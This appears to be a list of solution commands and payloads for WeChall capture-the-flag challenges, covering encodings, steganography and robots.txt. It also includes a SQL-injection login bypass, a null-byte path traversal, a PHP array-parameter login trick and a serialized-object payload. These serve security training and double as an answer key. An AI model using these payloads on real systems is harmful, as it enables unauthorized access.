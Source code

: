 
### http://www.wechall.net/challenge/training/get_sourced/index.php

    $ curl -s http://www.wechall.net/challenge/training/get_sourced/index.php | grep password 

### http://www.wechall.net/challenge/training/encodings/ascii/index.php

    $ for dec in $(echo "84, 104, 101, 32, 115, 111, 108, 117, 116, 105, 111, 110, 32, 105, 115, 58, 32, 109, 99, 110, 108, 102, 105, 114, 112, 98, 111, 99, 103" | tr -d ','); do printf "%x" $dec; done | xxd -r -p

### http://www.wechall.net/challenge/training/stegano1/index.php

    $ strings stegano1.bmp

### http://www.wechall.net/challenge/training/www/robots/index.php

```
$ curl -s http://www.wechall.net/robots.txt
$ curl -s http://www.wechall.net/challenge/training/www/robots/T0PS3CR3T/
```

### http://www.wechall.net/challenge/training/crypto/caesar/index.php

    http://www.xarg.org/tools/caesar-cipher/

### http://www.wechall.net/challenge/training/encodings1/index.php

    $  for i in $(cat encoding.txt | tr -d '\n' | sed 's/.\{7\}/&\n/g'); do echo "obase=16; ibase=2; ${i}" | bc | xxd -r -p; done

### http://www.wechall.net/challenge/training/mysql/auth_bypass1/index.php

    $ curl http://www.wechall.net/challenge/training/mysql/auth_bypass1/index.php -d "username=admin'#&password=aaa&login=Login"

### http://www.wechall.net/challenge/training/php/lfi/up/index.php

    $ http://www.wechall.net/challenge/training/php/lfi/up/index.php?file=../../solution.php%00

### http://www.wechall.net/challenge/no_escape/index.php

    # payload:
    barack`=111#

    # exploitation URL:
    https://www.wechall.net/challenge/no_escape/index.php?vote_for=barack`=111%23

### https://www.wechall.net/challenge/php0817/index.php

```
# exploitation URL:
https://www.wechall.net/challenge/php0817/index.php?which=solution
```

### http://www.wechall.net/challenge/training/php/globals

```
# exploitation URL:
http://www.wechall.net/challenge/training/php/globals/globals.php?login[]=admin
```

### http://www.wechall.net/challenge/are_you_serial/index.php

```
$ cat > s.php <<EOF
<?php
class SERIAL_Solution
{
}
$s = new SERIAL_Solution();

echo urlencode(serialize($s));
?>
EOF

$ php -f s.php

serial_user=O%3A15%3A%22SERIAL_Solution%22%3A0%3A%7B%7D
```

### https://www.wechall.net/challenge/noother/php0818/index.php

```
# solution: hexadecimal representation of given maigc number (3735929054): 0xDEADC0DE
```
